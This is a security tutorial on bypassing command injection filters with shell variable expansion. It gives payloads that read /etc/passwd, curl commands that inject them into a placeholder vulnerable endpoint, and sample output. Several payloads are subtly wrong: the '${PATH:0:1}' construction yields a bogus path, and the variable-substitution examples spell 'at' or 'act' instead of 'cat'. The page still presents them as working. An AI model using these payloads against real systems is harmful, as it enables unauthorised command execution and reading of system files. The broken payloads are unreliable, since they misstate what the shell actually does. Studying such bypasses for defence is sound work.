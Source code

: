 ```yaml
---
title: Bypass Web Filters with Shell Variable Expansion
description: Learn to bypass command injection filters using shell variable expansion
  in web applications.
keywords:
- shell variable expansion
- command injection
- filter bypass
- dynamic file paths
- security exploitation
---
```


# Bypass With Variable Expansion

## Context

The objective of this article is to demonstrate how shell variable expansion can be used to bypass command injection filters in web applications. This technique assumes knowledge of shell variable expansion, command line interpretation, and foundational understanding of command injection vulnerabilities.

## Theory

### Variable Expansion in Shells

Variable expansion in shells is a process where variables are replaced with their respective values during the parsing of shell commands. This mechanism allows for dynamic command construction and execution based on variable values at runtime. Attackers can leverage this feature to reconstruct filtered or blocked characters within injected commands.

### Filter Bypass via Variable Expansion

Web application filters often block specific dangerous substrings to prevent command injection. However, they may not account adequately for shell variable expansion. Attackers can exploit this oversight by injecting payloads using variable expansion syntax to recreate prohibited command elements dynamically during runtime execution.

### Dynamic Shell Path Construction

Variable expansion facilitates the dynamic creation of file paths or command arguments. This is particularly useful for bypassing static filters that expect fixed patterns. Through variable expansion, user input is processed by the server-side script, which then executes the shell command after reconstructing the full command with expanded variables, effectively bypassing the filter.

## Practice

### Bypassing Filters Using Environment Variable Expansion

1. **Identify filtered characters or substrings:**
   - Understand which characters or syntax elements are filtered by the web application (e.g., 'cat', '/', or 'etc').

2. **Construct a payload using variable expansion:**
   ```bash
   ${PATH:0:1}cat${PATH:0:1}/etc/passwd
   ```
   - This payload uses variable expansion to dynamically insert the '/' character, which may be filtered if used directly.

3. **Inject the payload into the vulnerable parameter:**
   ```bash
   curl -X POST -d 'input=${PATH:0:1}cat${PATH:0:1}/etc/passwd' http://target/vuln
   ```
   - Send the payload in a POST request to the vulnerable endpoint.

4. **Observe command execution:**
   ```text
   root:x:0:0:root:/root:/bin/bash
   ...
   ```
   - Successful output indicates that the filter was bypassed, and the shell command was executed.

### Bypassing Filters Using Custom Variable Substitution

1. **Set a custom variable to reconstruct blocked substrings:**
   - If 'cat' is blocked, you can construct it using variable expansion with interim variables.

2. **Create a payload using variable substitution:**
   ```bash
   C=a;T=t;${C}${A}${T} /etc/passwd
   ```
   - This strategy reconstructs 'cat' incrementally by using intermediate variables if its direct usage is blocked.

3. **Inject the payload to trigger variable expansion:**
   ```bash
   curl -X POST -d 'input=C=a;A=c;T=t;${C}${A}${T} /etc/passwd' http://target/vuln
   ```
   - Submit the crafted payload to the affected parameter.

4. **Verify command execution:**
   ```text
   root:x:0:0:root:/root:/bin/bash
   ...
   ```
   - The presence of output confirms that the filtered keywords were reconstructed using variable expansion, permitting command execution.

## Tools

- **curl**
- **Burp Suite** 

These tools facilitate the creation and submission of crafted payloads to web applications to exploit command injection vulnerabilities.